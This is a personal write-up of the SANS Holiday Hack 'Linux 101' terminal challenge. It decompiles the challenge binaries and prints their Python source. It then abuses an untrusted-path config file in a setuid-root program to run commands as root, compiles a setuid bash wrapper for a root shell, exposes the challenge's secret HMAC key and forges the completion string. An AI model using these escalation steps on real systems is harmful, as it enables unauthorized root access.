


## What do we have here?
We are presented with a split-terminal challenge. Instructions pop up in the upper pane, and you are supposed to interact with the lower pane. As one of the first challenges to be presented, it shouldn't be too hard to crack, right?


Upon entering `yes` in the lower pane, as instructed, we ended up with a shell running as the user `elf`. Let's see what's going on by listing the processes. Apparently there is something called `tmuxp` which is run by the user `init` and most likely a configured by a file called `mysession.yaml`.


Unfortunately, a search in `/home/init` turns up empty, suggesting that the `mysession.yaml` file, once present there, has been removed.

So, what is `tmuxp`? I am a big fan of the `tmux` program, especially the ability to `detach` a running `session` on a remote system, log out and come back later to bring it up again. Like the more old-school `screen` program, but better. `tmuxp` certainly indicates some sort of `tmux` relationship??

Checking out the [GitHub page](https://github.com/tmux-python/tmuxp) for `tmuxp` it is revealed that `tmuxp` is essentially a session manager for `tmux`, which allows users to save and load `tmux` `sessions` through simple configuration files.

Within a `tmux` session you can issue commands with key shortcuts, using something called the `prefix key`. In the default configuration, the `prefix key` is `Ctrl-b`, i.e. the `control` button pressed at the same time as `b`. Followed by other keys, commands are issued. For example `Ctrl-b %` corresponds to splitting a `window` vertically. Let's try it!


Disconnected! Quickly after issuing the command, we got thrown out from the challenge. But, at least the command worked and we understand that we are indeed running `tmux` with the default `prefix key` configured.
## Getting a basic understanding
Back at it! This time, let's create a new `tmux` `window` without first interacting with the terminal. A new `window` is created with `Ctrl-b c`.

This time it worked, and we did not get disconnected! Plus, we are not the user `elf` that ran the lower pane shell in the challenge. Now, we are the user `init`, the same user that ran `tmuxp`. And, there are still files in the home folder!


Two large (>5Mb) files, the previously missing `mysession.yaml` and a `questions_answers.json` file. Let's investigate `mysession.yaml` by launching it in vim:


So `tmuxp` configures a `tmux` `session` with a single `window`, divided into two horizontally split `panes`, each running the `top_pane` and the `bottom_pane` binaries, respectively. This shows us the challenge's structure and straightly points us onto what we should focus next.

The `questions_answers.json` seems to contain all the information for the challenge. It includes the intro/greeting shown in the panes when starting the challenge, as well as an array with each step in the challenge. It seems to contain different types of questions. The ones of the type `str` contains an array of strings in the `str` node that are expected in order to complete the question.


For example, the first question:
>Perform a directory listing of your home directory to find a troll \[...\]

Running `ls` in the bottom pane results in the following files:


The filename `troll_19315479765589239` contains the string `19315479765589239` which is specified in the `str` node for the first question. So, text that appears in the lower pane seems to be read and analyzed, and if the expected string appears it somehow triggers the next question in the upper pane. 
Questions of the type `cmd` seems to instead have a command to check whether or not the question is completed. The below question where a file is asked to be deleted contains the `cmd`:
```bash ln:false
[[ -f /home/elf/troll_19315479765589239 ]] || echo troll_removed
```
as well as a `stdout` node with the value `troll_removed`. So, the command checks if a file exists, and if the check fails (i.e. the file is removed), it outputs `troll_removed` which somehow triggers the next question.


In order to understand how all this works in detail, for example the triggering of questions between the panes, we need to investigate the binaries running in the panes, `top_pane` and `bottom_pane`.
## The binaries
Using the `file` command to output information of what type of file we are dealing with, we are only given the information that it is a 64-bit ELF executable. That doesn't take us much further.


We need more information! Is it something we can reverse easily? Instead looking at strings embedded in the binary with the `strings` command and piping it through `less`, we only have to scroll down a few pages to find this:


They are `PyInstaller` packages! `PyInstaller` creates executable files from Python scripts, so that they can be run on systems without Python installed. That's why they are huge in size, as they embed a complete Python interpreter.

We want to "extract" the packages so that we get to the Python code instead. Good thing that tools exists that can do just this. For `PyInstaller` packages we can use `PyInstxtractor` ([GitHub page](https://github.com/extremecoders-re/pyinstxtractor)). It is contained in a single python-file of less than 500 lines. Just copy and paste the contents of [the file](https://raw.githubusercontent.com/extremecoders-re/pyinstxtractor/2457a39b67048a89e19e6bdf7bbcd660ba0eafe3/pyinstxtractor.py) and paste it into a file on the web terminal and use it from there.


Running it on the binaries indeed succeeds with extracting them to separate folders.



Looking at the command output, it suggests a few possible entry points for the programs. Remembering the names of the binaries, odds are that the files we should be interested in are the `tp.pyc` and `bp.pyc`. But, what are `.pyc` files? They are not python files - opening them in an editor shows just binary "garbage" with single recognizable words here. Let's ask `ChatGPT 4` what we can do with them:

> [!question] ChatGPT4: "what are .pyc files? how can they be made readable?"
> 
> `.pyc` files are compiled Python files. These files are created by the Python interpreter when a `.py` file (a Python script) is imported. Here's a bit more detail about them:
> 1. **Compiled Bytecode**: A `.pyc` file contains bytecode, which is a compiled version of your Python source code. Python, being an interpreted language, compiles the source code to bytecode, which is a lower-level, platform-independent representation of your source code. This bytecode is then executed by the Python virtual machine.
> 2. **Performance Improvement**: The main reason Python uses `.pyc` files is to speed up loading modules. If a `.pyc` file exists, it can be loaded directly by the Python interpreter, which is faster than parsing and compiling the source `.py` file.
>
> 3. **Not Human-Readable**: `.pyc` files are not meant to be human-readable. They are in a binary format designed to be read by the Python interpreter.
>
> To make a `.pyc` file readable, you would need to "decompile" it back into `.py` format. Decompilation is the process of converting the compiled bytecode back into source code. This can be done using various tools, but it's important to note a few things:
>
> - **Loss of Information**: Decompilation might not perfectly recreate the original source code. Comments and some formatting will be lost, as these are not included in the bytecode.
>
> - **Legal and Ethical Considerations**: Decompiling code can have legal and ethical implications, especially if the code is proprietary or copyrighted. Always make sure you have the right to decompile and view the contents of a `.pyc` file.
>
> - **Tools**: There are tools available for decompiling `.pyc` files, like `uncompyle6`, `pycdc`, or `decompyle3`. These can be installed and used to attempt to convert `.pyc` files back into readable Python source code.
>
>Remember, always respect copyright and intellectual property rights when dealing with compiled code. Decompilation should only be done with proper authorization and for legitimate purposes.

So the `.pyc` files are compiled Python code. We are given examples of tools that can be used to decompile them in to readable Python source code. Unfortunately, the container executing the challenge does not have internet connection, so we cannot install packages unless pasting them into the terminal like we did with the `PyInstxtractor` code. It feels a bit too cumbersome to continue the investigations in the web terminal, so let's exfiltrate them instead and deal with them locally. They are, after all, pretty small.


In order to copy-and-paste binary data from a terminal, a tool like `base64` can be used. If we also compress the file first, the amount to copy will be even smaller. Even with a relatively small terminal window, `tp.pyc` fits within one window. The process is repeated with `bp.pyc`.


Getting the files onto your system is just a process of copying the data above, and reversing the base64 and compression process:
`cat | base64 -d | unxz > tp.pyc` 
Then paste the data, press `Enter` followed by `Ctrl-d` to indicate end of input for `cat`. Repeating the process for `bp.pyc`, we end up with the wanted files on our target system. 



In order not to bloat your system with temporary tools, and to also direct with fine detail what version of Python you want running, `docker` can be used to create a container with the wanted Python version. My system is running Python 3.6.9, whereas the `PyInstaller` packages were created with Python 3.8.

A simple `Dockerfile` with a few lines will get us a container with a few nice-to-have tools as well as the desired version of Python. Let's also install a Python decompiler as suggested by ChatGPT above.

```Dockerfile title:Dockerfile
FROM python:3.8.10
RUN apt-get update
RUN apt-get install -y ltrace strace vim xxd less
RUN pip install --upgrade pip
RUN pip install uncompyle6
```

Save the file as `Dockerfile` and build the image, tagging it as `linux101tools`:
`docker build . -t linux101tools`

It will start downloading the required docker images followed by installation of the specified packages, lastly we have our tagged image.

In order to launch it with the current directory mapped into a folder in the container, we run the image with the `-v` option for "mounting a volume". The python image will default to running the `python` executable though, so we specify that we want it to run bash instead: 
`docker run -v $(pwd):/linux101 --rm -it linux101tools bash`

We end up in a container with the current folder "mounted" into the folder `/linux101`.


Let's decompile the `.pyc` files! 


We see that `tp.py` is much larger than `bp.py`. It is due to a decompilation error as hinted in the command output. The file contains some debug information as well as human readable (to some degree) parsed byte-code for the method that failed to decompile. Apparently it was the `get_log` method. Looking at the parsed code it is still pretty easy to get an idea of what is happening. A logfile is opened, its content read and then the file is emptied by copying `/dev/null` to the logfile.


## Bottom pane program
Let's start with the smallest file, `bp.py` for the bottom pane. It is just a bit over 60 lines after some clean up.
```python ln:true title:bp.py
import subprocess as sp, libtmux, os, sys, threading, time, json, signal
server = libtmux.Server()
main_session = server.list_sessions()[0]
bottom_pane_intro = json.load(open('questions_answers.json', 'r'))['bottom_pane_intro']

def kill_session(main_session):
    for window in main_session.windows:
        window.kill_window()

def monitor_top_thread(main_session):
    time.sleep(1)
    while len(main_session.windows[0].panes) == 2:
        time.sleep(0.2)
    kill_session(main_session)

def change_user():
    os.chdir(os.environ['BPUSERHOME'])
    os.setgid(1051)
    os.setuid(1051)

def main(main_session, bottom_pane_intro):
    os.setgid(0)
    os.setuid(0)
    t = threading.Thread(target=monitor_top_thread, args=[main_session])
    t.daemon = True
    t.start()
    time.sleep(0.1)
    answ = ''
    while True:
        try:
            sp.call('clear', shell=True)
            answ = input('\n' + bottom_pane_intro)
        except:
            pass
        else:
            if answ.lower().startswith('y'):
                break
            elif answ in ('n', 'q'):
                kill_session(main_session)

    sp.call('clear', shell=True)
    for f in ('/home/init/bottom_pane', '/home/init/top_pane', '/home/init/mysession.yaml',
              '/home/init/questions_answers.json', '/home/init/.tmux.conf'):
        os.remove(f)
    else:
        try:
            os.chdir(os.environ['BPUSERHOME'])
            cmds = '/bin/stty size > /tmp/tsize;' + f"usermod -a -G tty {os.environ['BPUSER']};" + 'chmod 755 /tmp/sshell;' + f"chown {os.environ['BPUSER']}:{os.environ['BPUSER']} /tmp/sshell;" + '/tmp/sshell'
            sp.call(cmds, shell=True)
        except:
            pass
        else:
            catch_ctrl_C_Z(0, 0)

def catch_ctrl_C_Z(signum, frame):
    global main_session
    for window in main_session.windows:
        window.kill_window()

if __name__ == '__main__':
    signal.signal(signal.SIGINT, catch_ctrl_C_Z)
    signal.signal(signal.SIGTSTP, catch_ctrl_C_Z)
    main(main_session, bottom_pane_intro)
    sp.call('clear', shell=True)
```

Looking at the code, we learn the following:
- Variables for `tmux` `sessions` are set up.
- Greeting message from the `questions_answers.json` is read.
- A separate `thread` is spawned (lines 24-26), running the method `monitor_top_thread` which continuously checks that the number of `panes` in the first `tmux` `window` is equal to 2. If not, the session is killed. This is what got us disconnected earlier when trying to split one of the panes into two.
- Signal handlers are set up (lines 61-62) for catching `SIGINT` (interrupt) and `SIGTSTP` (terminal stop). This catches the user pressing `Ctrl-C` or `Ctrl-Z`, and will kill the session.
- When starting, the effective user and group context is changed into `root` (lines 22-23). This is possible because the binaries are owned by `root` and has the `setuid` bit set. It can be seen in the following screenshot where they have an `s` instead of an `x` in the permissions column. The coloring scheme for `ls` on the web terminal also "warns" about this by giving the filename a red background.
  
- First after the user enters `yes` and presses enter, the files in `/home/init/` are removed (lines 32-44).
- A shell is launched by using the `subprocess.call()` method (line 49). User and group are configured, and the script located at `/tmp/sshell` is executed.
- Exiting the launched shell will terminate the session (line 53).

All in all a small and straight-forward Python script. But let's investigate that shell spawning at line 49. The file `/tmp/sshell` is still available when creating a `tmux`  `window` without interacting with the panes. This is its content:
```bash title:/tmp/sshell
#!/bin/bash
rm /tmp/sshell
/bin/su "$BPUSER" -c 'script -fq /tmp/.commands.log'
```

The user context is changed into `$BPUSER` (which is set to `elf`), using `su` and the command `script -fq /tmp/.commands.log` is executed, providing the user with a shell where the questions are to be solved.  So what does `script` do? Its `man` page says the following:

>`script [options] [file]`
>
>`script` makes a typescript of everything displayed on your terminal.  It is useful for students who need a hardcopy  record  of  an  interactive session  as  proof  of  an  assignment,  as  the typescript file can be printed out later with lpr(1).

This means that everything typed into, and outputted in the terminal will be written to the file `/tmp/.commands.log` It must be via this file, that the program running in the top pane search for the triggers defined in the `questions_answers.json` file, effectively verifying when each question is solved.
## Top pane program
Continuing with the top pane script  `tp.py`. This is 180 lines after clean up, about three time larger than `bp.py`.

```python ln=true title:tp.py
import subprocess as sp, time, signal, os, sys, libtmux, json, re
from shutil import copyfile
server = libtmux.Server()
main_session = server.list_sessions()[0]
questions_answers = json.load(open('questions_answers.json', 'r'))

def catch_ctrl_C_Z(signum, frame):
    global main_session
    for window in main_session.windows:
        window.kill_window()

def prRed(skk):
    print('\x1b[91m{}\x1b[00m'.format(skk))

def prGreen(skk):
    print('\x1b[92m{}\x1b[00m'.format(skk))

def prYellow(skk):
    print('\x1b[93m{}\x1b[00m'.format(skk))

def prLightPurple(skk):
    print('\x1b[94m{}\x1b[00m'.format(skk))

def prPurple(skk):
    print('\x1b[95m{}\x1b[00m'.format(skk))

def prCyan(skk):
    print('\x1b[96m{}\x1b[00m'.format(skk))

def prLightGray(skk):
    print('\x1b[97m{}\x1b[00m'.format(skk))

def prBlack(skk):
    print('\x1b[98m{}\x1b[00m'.format(skk))

def prBrightBlue(skk):
    print('\x1b[34;1m{}\x1b[00m'.format(skk))

def prBrightMagenta(skk):
    print('\x1b[35;1m{}\x1b[00m'.format(skk))

def prBlackCyan(skk):
    print('\x1b[36;1m{}\x1b[00m'.format(skk))

def print_next(message, color_index):
    colors = [
     prBrightBlue, prBrightMagenta, prBlackCyan]
    colors[color_index](message)

def increment_index(color_index):
    color_index += 1
    if color_index >= 3:
        color_index = 0
    return color_index

def get_log(): # "broken" at decompilation
    # open and read logfile
    # empty the logfile by copying /dev/null to it

def clear_log(logfile='/tmp/.commands.log'):
    sp.call('whoami', shell=True)
    copyfile('/dev/null', logfile)

def main(main_session, questions_answers):
    os.setgid(0)
    os.setuid(0)
    color_index = 0
    sp.call('clear', shell=True)
    time.sleep(0.1)
    print_next(questions_answers['top_pane_intro'], color_index)
    color_index = increment_index(color_index)
    banner = os.environ['GREENSTATUSPREFIX'] + ' [{}]'
    cnt = 0
    left_size = int(re.findall('status-left-length (\\d+)', open('/home/init/.tmux.conf', 'r').read())[0])
    while not os.path.isfile('/tmp/tsize'):
        time.sleep(0.1)

    rows, columns = [int(x) for x in open('/tmp/tsize', 'r').read().split(' ')]
    columns -= left_size + 5 + len(os.environ['GREENSTATUSPREFIX'])
    char_multiplier = 1
    if len(questions_answers['progressbar_char'].encode()) > 2:
        char_multiplier = 2
    else:
        num_chars_per_question = columns / char_multiplier / len(questions_answers['questions'])
        progress = ' ' * int((len(questions_answers['questions']) - cnt) * num_chars_per_question) * 2
        main_session.windows[0].rename_window(banner.format(progress))

        def hintme(show_hint, hint_shown, question, color_index):
            if show_hint:
                if not hint_shown:
                    sp.call('clear', shell=True)
                    print_next(question['question'], color_index)
                    prYellow(question['hint'])
                    return                     return True

        while True:
            if os.environ['BPUSER'] not in ''.join(main_session.windows[0].panes[1].capture_pane()):
                time.sleep(1)

    for question in questions_answers['questions']:
        hint_shown = False
        show_hint = False
        sp.call('clear', shell=True)
        print_next(question['question'], color_index)
        if bool(question['cmds_on_begin']):
            for cmd in question['cmds_on_begin']:
                sp.call(cmd, shell=True, stderr=(sp.DEVNULL), stdout=(sp.DEVNULL))

        else:
            if question['type'] == 'str':
                check_result = get_log()
                while True:
                    if len([x for x in question['str'] if x in check_result]) != len(question['str']):
                        if os.path.isfile('/tmp/.hintme'):
                            if os.stat('/tmp/.hintme').st_size != 0:
                                show_hint = True
                                open('/tmp/.hintme', 'w').close()
                        if hintme(show_hint, hint_shown, question, color_index):
                            hint_shown = True
                        time.sleep(1)
                        check_result = get_log()

            else:
                if question['type'] == 'cmd':
                    while True:
                        if question['stdout'].encode() not in (b'').join(sp.Popen((question['cmd']), stdout=(sp.PIPE), stderr=(sp.PIPE), shell=True, executable='/bin/bash').communicate()):
                            if os.path.isfile('/tmp/.hintme'):
                                if os.stat('/tmp/.hintme').st_size != 0:
                                    show_hint = True
                                    open('/tmp/.hintme', 'w').close()
                            if hintme(show_hint, hint_shown, question, color_index):
                                hint_shown = True
                            time.sleep(1)

                else:
                    if question['type'] == 'rgx':
                        check_result = get_log()
                        while len([x for x in question['rgx'] if bool(re.search(x, check_result, re.MULTILINE | re.DOTALL))]) != len(question['rgx']):
                            if os.path.isfile('/tmp/.hintme'):
                                if os.stat('/tmp/.hintme').st_size != 0:
                                    show_hint = True
                                    open('/tmp/.hintme', 'w').close()
                            if hintme(show_hint, hint_shown, question, color_index):
                                hint_shown = True
                            time.sleep(1)
                            check_result = get_log()

                    if bool(question['cmds_on_complete']):
                        for cmd in question['cmds_on_complete']:
                            sp.call(cmd, shell=True, stderr=(sp.DEVNULL), stdout=(sp.DEVNULL))

                    clear_log()
                    cnt += 1
                    color_index = increment_index(color_index)
                    progress = questions_answers['progressbar_char'] * int(cnt * num_chars_per_question) + ' ' * int((len(questions_answers['questions']) - cnt) * num_chars_per_question) * 2
                    main_session.windows[0].rename_window(banner.format(progress))
    else:
        sp.call('clear', shell=True)
        try:
            henv = '031432a2-4cce-4d30-8095-534fe7ad2366'
            if 'RESOURCE_ID' in os.environ:
                henv = os.environ['RESOURCE_ID']
            else:
                if 'resource_id' in os.environ:
                    henv = os.environ['resource_id']
            cmd = f"echo 40e31ecb9c4b | RESOURCE_ID={henv} /root/runtoanswer | tail -1"
            hashanswer = (b'').join(sp.Popen(cmd, stdout=(sp.PIPE), stderr=(sp.PIPE), shell=True, executable='/bin/bash').communicate()).decode('utf-8', 'ignore')
            print_next(questions_answers['finale'] + '\n' + hashanswer, color_index)
            while True:
                time.sleep(1)

        except:
            pass
        else:
            catch_ctrl_C_Z(0, 0)

if __name__ == '__main__':
    signal.signal(signal.SIGINT, catch_ctrl_C_Z)
    signal.signal(signal.SIGTSTP, catch_ctrl_C_Z)
    main(main_session, questions_answers)
```

Looking at the code, we learn the following
- Variables for `tmux` `sessions` are set up.
- The content of `questions_answers.json` is read (line 5).
* Signal handlers for `SIGINT` and `SIGTSTP` are setup like in `bp.py`.
* A lot of helper-methods for printing colored questions to the terminal are defined (lines 12-54)
* The log file used to read all the terminal input and output is indeed `/tmp/.commands.log` produced by `script` in the bottom pane (lines 56-62).
* The effective user and group context is changed into `root` just like for the bottom pane (lines 65-66).
* It will start displaying the questions once `$BPUSER` (i.e. `elf`) is displayed in the _second pane_ of the _first window_ (line 97). This happens after the user enters `yes` into the terminal.
* The question-loop starts at line 100, and will do things differently depending on which `type` the question is. The supported types are `str`, `cmd` and `rgx` (regular expression, so basically a more advanced version of the `str` type).
* When finished with all the questions, it executes a program on line 167 using the data stored in the environment variable `RESOURCE_ID` and prints the program output together with the `finale` variable from the `questions_answers.json`. It then enters an endless loop running `sleep`.

The program that is executed at line 167 is located in `/root/`. A static hex string is piped into the program, and only its last line of output is regarded:
`echo 40e31ecb9c4b | RESOURCE_ID={henv} /root/runtoanswer | tail -1`

So, what is the `runtoanswer` program? How does it work? Neither of the users `elf` or `init` have permissions to reach the file. In order to access it, we need to become `root`.
## The search for `root`
A `root` shell would be ideal, so that we can poke around freely in the container and investigate things. How could this be achieved?

We know that the binaries are executed as `root`, and that they parse the `questions_answers.json` file for configuration. Unfortunately that file is also owned by `root` with no write permissions for other users. However, take a look at line 5 in `tp.py`:
```python title:tp.py
import subprocess as sp, time, signal, os, sys, libtmux, json, re
from shutil import copyfile
server = libtmux.Server()
main_session = server.list_sessions()[0]
questions_answers = json.load(open('questions_answers.json', 'r'))
[...]
```

What we see is an example of an _untrusted search path_ vulnerability ([link](https://cwe.mitre.org/data/definitions/426.html)). The absolute path to the file `questions_answers.json` is not specified, so the program will try to open it in the _current directory_, the directory from which the program is executed. This means that we can copy `questions_answers.json` to another folder, modify it and run the program from there and it will use our `questions_answers.json` file.

Looking back to `tp.py`, at lines 105-107, commands can be specified  in the `questions_answers.json` in the `cmds_on_begin` node. We can use this to get `tp.py`to run arbitrary commands as `root`:
```python title:tp.py ln=105
if bool(question['cmds_on_begin']):
	for cmd in question['cmds_on_begin']:
		sp.call(cmd, shell=True, stderr=(sp.DEVNULL), stdout=(sp.DEVNULL))
```

We can't edit the binaries however, as we want them to continue being `suid root`. So in order to get `bp.py` to run our commands associated with the first question in our malicious `questions_answers.json`, we need to interact with the _second pane_ in the _first window_ in order to let the top pane start asking questions (remember the check at line 97).

Lets add a command that will create a file as `root`, and see if it appears.
Snippet from our modified `/tmp/questions_answers.json`:
```json title:questions_answers.json ln:6
    "questions":[
        {
            "cmds_on_begin": [ "touch /tmp/hello" ],
            "question":"Perform a directory listing of your home directory to find a troll and retrieve a present!",
```

If we create a second `tmux` `window`, prepare the file and launch `/home/init/top_pane` while standing in `/tmp/`, the command should be executed after we type "yes" in bottom `pane` of the first `window`. We can change windows in `tmux` with the command `Ctr-b n` for "next window".

So, create a second `window` with `Ctrl-b c`...
```bash ln:false
init@fa05c734836f:~$ cd /tmp
init@fa05c734836f:/tmp$ cp /home/init/questions_answers.json .
init@fa05c734836f:/tmp$ vim questions_answers.json  # modify cmds_on_begin as above
init@fa05c734836f:/tmp$ /home/init/top_pane 
```
Now back to the first window with `Ctrl-b n` and enter "yes" in the bottom pane. List the files in `/tmp`:


YES! We executed code as `root`!

In order to turn the above findings into a `root` shell, we will create a small binary `/tmp/rs` whose only purpose is change effective user to `root` and then execute bash. We use the `cmds_on_begin` hack to make it `setuid root`. Then we can just launch the executable and have a `root` shell.

New command in our modified `/tmp/question_answers.json`:
```json ln:8
 "cmds_on_begin": [ "chown root.root /tmp/rs && chmod u+s /tmp/rs" ],
```

The container even comes with some development tools, like the `gcc` compiler. We just create a minimal `.c` file and compile it:
```bash ln:false
echo 'main() { setuid(0); setgid(0); system("bash"); }' > rs.c
make rs
```


The compiler cries a bit because we didn't `return`something from the `main` function, and use functions implicitly without declaring them (something normally done with `#include` statements, for example `#include <unistd.h>`), but it happily builds the executable anyway.

Let's execute the `/home/init/top_pane` binary, go back to the first `window` and enter "yes" followed by executing our newly created `/tmp/rs` binary:


YES! A `root` shell. Now we can examine that `runtoanswer` file...

## The mysterious `runtoanswer`


We find an executable of around half a megabyte, and a small `.yaml` file:
```yaml title:runtoanswer.yaml
# This is the config file for runtoanswer, where you can set up your challenge!
---

# This is the completionSecret from the Content sheet - don't tell the user this!
key: 59946e2b9b2a74e830dbd47c97e3fb4c

# The answer that the user is expected to enter - case sensitive
answer: "40e31ecb9c4b"

# A prompt that is displayed if the user runs this interactively (they might
# not see this - answers can be entered as an argument)
prompt: "What is the answer?\n> "

# Optional: a time, in seconds, to delay before validating the answer (to
# prevent guessing)
#delay: 5
```

We recognize the hex string on line 8 from line 167 in `tp.py`:
`echo 40e31ecb9c4b | RESOURCE_ID={henv} /root/runtoanswer | tail -1

The hex string `40e31ecb9c4b` is what tells `runtoanswer` that the answer is correct. But how is that communicated to the system backend to keep track of your solved challenges? Let's exfiltrate the binary and take a closer look at it.

Since the binary is around half a megabyte, it is a bit more cumbersome to transfer than the `.pyc` files. It would probably be possible to just print it in the terminal and afterwards look at the data transferred in the `websocket` (the web terminal is accomplished using [wetty](https://github.com/butlerx/wetty) which uses `websockets` for communication). One would have to deal with filtering out ANSI escape codes from the data though. It is probably faster to zoom out the web browser window as much as possible and do it the same way as with the `.pyc` files.

Zoom level 25% and a row width of 1150 characters made the whole output fit in one page:
`cat runtoanswer | xz -9 | base64 -w 1150`


A simple `strings` check (start from the end rather from the beginning) hints that this is a `rust` binary built by the developer `ron` (\*waving\* hey [Ron Bowes](https://www.skullsecurity.org/about)!). 


We see what is probably an error message about a non-defined `RESOURCE_ID`, the environment variable set before running `runtoanswer` from `tp.py`. We also see that it includes a `HMAC`library ([this one](https://crates.io/crates/hmac/0.8.1/)) so it probably does some calculations using the `key`variable from the `runtoanswer.yaml` file and using it to somehow indicate to the HHC framework that the challenge is solved. How and where is it sent, though?

Loading the binary up in `ghidra`, a popular and free reverse engineering tool ([link](https://ghidra-sre.org/)), we see that just a few standard external functions are linked, none related to for example networking. It seems to mostly be working with `stdin`and `stdout` via the `read`and `write` functions, and getting environment variables with `getenv`. Some of the external symbol references are shown below:


Reversing `rust` binaries is not an easy task however (and I will be the first to admit that it is _not_ my expertise) - after identifying what I believed to be some sort of `main` function, the decompiled code was 4519 lines long, had around 390 (according to `ghidra`) local variables and code looking like this:


This made me NOPE out of thinking I could get understanding using static code analysis, at least given the time I was willing to spend. 

Let's instead see how it behaves when running it. Using our Python `docker`container from before, we just run it as intended and see what happens. The environment variable `RESOURCE_ID` can be obtained from the challenge web terminal with the `env` command.
``` ln:false
# echo 40e31ecb9c4b | RESOURCE_ID=79058a94-e5c5-4e9a-b2c7-444ab86109fa ./runtoanswer 
Something went wrong reading the configuration file /etc/runtoanswer.yaml: Couldn't open file: No such file or directory (os error 2)

If this persists, please ask for help!
```

Ok, the `runtoanswer.yaml` file goes to `/etc`. We make it happy by just copying it there and try again.
``` ln:false
# echo 40e31ecb9c4b | RESOURCE_ID=79058a94-e5c5-4e9a-b2c7-444ab86109fa ./runtoanswer 
What is the answer?
> Your answer: 40e31ecb9c4b

Your answer is correct!
#####hhc:{"hash": "449de2e34c42e39251da18fce1e74a0a387a8bc88601922c81b412fb38be2be8", "resourceId": "79058a94-e5c5-4e9a-b2c7-444ab86109fa"}#####
```

Is that it? Just a string to the terminal? Confirm by letting `strace` run the binary, which traces the system calls the binary uses and prints them to the screen.
`echo 40e31ecb9c4b | RESOURCE_ID=79058a94-e5c5-4e9a-b2c7-444ab86109fa strace ./runtoanswer`

In the beginning we see typical calls for loading shared libraries, lot of memory allocations and memory mappings. The `/etc/runtoanswer.yaml` file is opened and read, 16 bytes of random data is retrieved, the answer is read from `stdin` and the `#####hhc[...]` string is written to `stdout`. I thought maybe the containers communicated with the backend on the container's local network but that does not seem to be the case. Just a specially formatted string written to the terminal itself.
``` title:"strace output for runtoanswer"
execve("./runtoanswer", ["./runtoanswer"], 0x7ffd4f2c1bb0 /* 15 vars */) = 0
brk(NULL)                               = 0x55b9313fe000
access("/etc/ld.so.preload", R_OK)      = -1 ENOENT (No such file or directory)
openat(AT_FDCWD, "/etc/ld.so.cache", O_RDONLY|O_CLOEXEC) = 3
fstat(3, {st_mode=S_IFREG|0644, st_size=35999, ...}) = 0
mmap(NULL, 35999, PROT_READ, MAP_PRIVATE, 3, 0) = 0x7fb4a90ec000
[...snip...]
openat(AT_FDCWD, "/etc/runtoanswer.yaml", O_RDONLY|O_CLOEXEC) = 3
fcntl(3, F_GETFD)                       = 0x1 (flags FD_CLOEXEC)
read(3, "# This is the config file for ru"..., 8192) = 569
read(3, "", 8192)                       = 0
getrandom("\xe1\x7c\xaf\xe7\x83\x65\x04\x5c\xc1\xc5\x39\xdb\x33\x52\x7e\x0a", 16, GRND_NONBLOCK) = 16
close(3)                                = 0
write(1, "What is the answer?\n", 20What is the answer?
)   = 20
write(1, "> ", 2> )                       = 2
read(0, "40e31ecb9c4b\n", 8192)         = 13
write(1, "Your answer: 40e31ecb9c4b\n", 26Your answer: 40e31ecb9c4b
) = 26
write(1, "\n", 1
)                       = 1
write(1, "Your answer is correct!\n", 24Your answer is correct!
) = 24
write(1, "#####hhc:{\"hash\": \"3e4f4e1d1fbb6"..., 145#####hhc:{"hash": "449de2e34c42e39251da18fce1e74a0a387a8bc88601922c81b412fb38be2be8", "resourceId": "79058a94-e5c5-4e9a-b2c7-444ab86109fa"}#####
) = 145
sigaltstack({ss_sp=NULL, ss_flags=SS_DISABLE, ss_size=8192}, NULL) = 0
munmap(0x7fb4a90f2000, 12288)           = 0
exit_group(0)                           = ?
+++ exited with 0 +++
```

## Running to completion
What happens if we write such a string to the terminal? Let's copy the string below
``` ln:false
#####hhc:{"hash": "blablabla", "resourceId": "blablabla"}#####
```
then paste it into an `echo`command in the terminal:


Nothing appears in the terminal. Did I not paste? I'm sure I did. \*paste again\* - nope, nothing happens. WHAT SOURCERY IS THIS?
It must be the web terminal doing something when writing this specific string. Let's check `wetty` by launching a developer console in the browser. Pretty quick, the file `conduit.js` is spotted, setting the variable `__WETTY_OUTPUT_FILTER__` to something that looks like a regex (line 1) describing just the string we tried to paste.


Later in the file, we find the code most likely responsible for filtering out these strings and replacing them with an empty string (line 76-84). 


Can we perhaps fool the system by first manually typing the first five `#` characters of the outputted string and paste the rest? It turns out it is possible! What happens if we continue with pressing enter?


Wohoo!! Challenge completed.
> New Achievement Unlocked: Linux 101!

But, how was the achievement of the completed challenge communicated to the HHC backend? I'm not entirely sure, but my guess would be that the server side of the `wetty` terminal monitors the `websocket` for such `#####hhc:[...]#####` strings, sends them to a service that verifies the `HMAC` and then tells your browser. After all, the `runtoanswer.yaml` said the following about the `key` variable, so it feels safe to assume it lives in more places. \[Correction: it is the browser that is responsible for sending it to the servers for verification, not the HHC backend\]
> This is the completionSecret from the Content sheet - don't tell the user this!

Phew. It was indeed fun! Thank you SANS for the challenge!

(I actually discovered this during the summer 2022 when trying to understand the inner workings of the challenge `Linux primer` from HHC2021. Seeing it again but with a somewhat different skin, I figured I should tell about it.)

Lars Helgeson (@larshson at discord, GitHub, X, etc.)
larshson@gmail.com
